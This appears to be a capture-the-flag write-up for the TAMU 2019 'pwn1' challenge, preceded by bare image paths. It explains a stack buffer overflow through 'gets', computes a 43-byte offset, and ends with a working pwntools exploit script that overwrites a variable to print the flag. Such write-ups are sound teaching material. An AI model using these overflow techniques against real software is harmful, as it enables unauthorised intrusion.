







# Tamu19 pwn1

As usual, let's see what kind of file we are working with and how it operates when run.



It appears to want three correct inputs in order to retrieve the flag.



Looking at the variable declarations, we can see `user_input` takes up to 43 characters.

(Converting `0x2b` from hex to decimal gives us 43.)



Below the variables, we can see two of the three questions and their corresponding answers. The binary uses `fgets` here with a strict buffer size limit, meaning we cannot exploit these specific inputs.



However, the final question deviates from `fgets` and uses `gets` instead. This function does not enforce an input length limit, making it highly dangerous. The `if` statement checks the value of the `target` variable, so how do we change it from `0` to `0xdea110c8`? We buffer overflow!



*Fun fact*: `gets` is so dangerous the `man` page warns you against ever using it!



Switching over to the disassembly view, we see that the `target` variable sits at `ebp-0x10` and the `user_input` buffer sits at `ebp-0x3b`.

`0x3b - 0x10 = 0x2b`

That means we need to send exactly 43 bytes of padding to reach our target variable, and then append `0xdea110c8` to trigger the `print_flag()` branch. Because the program expects multiple inputs, I am going straight to a `pwntools` script to automate it.

```
from pwn import *

p = process("./pwn1")

# sendline appends the \n needed
p.recvuntil(b"What... is your name?")
p.sendline(b"Sir Lancelot of Camelot")

p.recvuntil(b"What... is your quest?")
p.sendline(b"To seek the Holy Grail.")

p.recvuntil(b"What... is my secret?")

# Craft payload
payload = cyclic(43) + p32(0xdea110c8)
p.sendline(payload)

print(p.recvall().decode("utf-8"))
```

Because the program automatically prints the flag when the correct value is overwritten, an interactive shell isn't required. Instead, we can just grab the remaining buffer stream using `p.recvall()`. The 43 bytes of filler are handled by `cyclic(43)`, and `p32(0xdea110c8)` handles packing the target value into little-endian format.



**Success!**
